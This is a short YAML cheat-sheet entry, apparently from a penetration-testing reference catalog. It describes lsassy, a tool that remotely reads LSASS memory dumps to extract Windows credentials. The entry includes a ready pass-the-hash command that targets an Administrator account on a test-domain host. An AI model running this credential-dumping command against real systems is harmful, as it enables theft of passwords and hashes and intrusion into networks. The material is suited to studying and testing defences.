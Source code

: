 ```yaml
---
title: |
  Extract Credentials Remotely (NT Hash Auth)
description: |
  Python tool to remotely extract credentials on a set of hosts. This tool uses impacket project to remotely read necessary bytes in lsass dump and pypykatz to extract credentials.

command: |
  lsassy –hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.test.local
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Enumeration
references:
  - https://github.com/Hackndo/lsassy
  - https://en.hackndo.com/remote-lsass-dump-passwords/
---
```

